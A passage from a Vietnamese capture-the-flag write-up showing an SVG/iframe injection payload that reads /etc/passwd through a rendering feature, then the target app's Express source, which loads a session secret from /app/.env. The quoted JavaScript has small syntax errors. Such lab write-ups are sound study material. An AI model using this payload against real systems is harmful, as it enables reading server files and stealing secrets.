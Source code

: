 Dòng trên đọc khá là đúng hướng làm của bài này, có sẵn POC ở dưới nên mình sẽ dùng thử xem như thế nào.

```
<svg-dummy></svg-dummy> <iframe src=\"file:///etc/passwd\" width=\"100%\" height=\"1000px\"></iframe> <svg viewBox=\"0 0 240 80\" height=\"1000\" width=\"1000\" xmlns=\"http://www.w3.org/2000/svg\"> <text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text> </svg>

# nhớ thêm backslash để escape character
```

![image](https://user-images.githubusercontent.com/75429369/171794237-2d484fa3-0798-4afe-a965-5ef7f755e61a.png)

Access để xem có gì nào

![image](https://user-images.githubusercontent.com/75429369/171794287-5901d24a-237b-418b-a77d-3e671db2fd53.png)

Yay đọc được etc/passwd, vậy là POC hoạt động mượt :))

`/app/index.js`:

![image](https://user-images.githubusercontent.com/75429369/171825288-84d057cd-bf25-474d-95aa-f342540460cf.png)

app/index.js
```js
const express = require('express');
const session = require('cookie-session');
const app = express() ;
const path = require('path');
const cookieParser = require('cookie-parser');
const nunjucks = require('nunjucks');
const routes = require('./routes');
const Database = require('./database');

const db = new Database('database.db');

app.use(express.json({limit: '2mb'})); 
app.use(cookieParser(); 

require('dotenv').config({ path: '/app/.env'}); 
app.use(session({
	name: 'session',
	keys: [process.env.SESSION_SECRET_KEY] 
}))

nunjucks.configure('views', {
	autoescape: true,
	express: app 
});

app.set('views', './views'); 
app.use('/static', express.static(path.resolve('static')));
app.use('/exports', express.static(path.resolve('exports')));

app.use(routes (db));

app.all('*', (req, res) => { 
	return res.status (404).send({
		message: '404 page not found'
	});
});

(async () => {
	await db.connect();
	await db.migrate();
	app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
```